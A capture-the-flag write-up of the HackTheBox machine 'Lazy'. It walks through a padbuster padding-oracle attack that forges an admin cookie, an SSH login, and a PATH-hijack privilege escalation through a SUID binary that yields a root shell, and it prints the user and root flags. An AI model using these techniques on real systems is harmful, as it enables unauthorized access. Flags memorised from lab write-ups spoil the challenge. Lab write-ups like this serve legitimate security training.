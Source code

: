 # Lazy

Author: Ewaël

**Lazy** is a medium HackTheBox box by trickster0.

`nmap -sC -sV -oN nmap 10.10.10.18 -v -A` shows ports 80 and 22 are open. Let's start with the website:

![main](main.png)

After trying some default creds for admin, I decide to register as "admi" when I see "admin" is taken already. Once I'm logged in, I see an `auth` cookie which I decide to decrypt:

```
padbuster http://10.10.10.18 Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ 8 -cookies auth=Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ
```

It shows me that only the user is saved:

```
[+] Decrypted value (ASCII): user=admi
```

Thus I can easily modify it to become "admin" instead of "admi".

```
padbuster http://10.10.10.18 Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ 8 -cookies auth=Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ -plaintext user=admin
```

My new `auth` cookie is `BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA`, and allows me to be logged in as "admin".

![admin](admin.png)

With `mitsos` ssh key, `ssh mitsos@10.10.10.18 -i ssh_key` allows me to get my user flag in `mitsos` home dir:

```
d558e7924bdfe31266ec96b007dc63fc
```

In this same directory there is a `backup` executable with root SUID which seems to print what is in `/etc/shadow`. A quick `ltrace ./backup` reveals me a very interesting information:

![ltrace](ltrace.png)

`cat` is used by `system` instead of `/bin/cat` so I can easily replace this with my own version of `cat`:

```bash
#!/bin/sh
/bin/sh
```

Then `chmod +x cat` makes the script executable and `export PATH=/home/mitsos:${PATH}` adds it in first place to `PATH`. After executing `backup` again, I get my root shell and flag:

`990b142c3cefd46a5e7d61f678d45515`
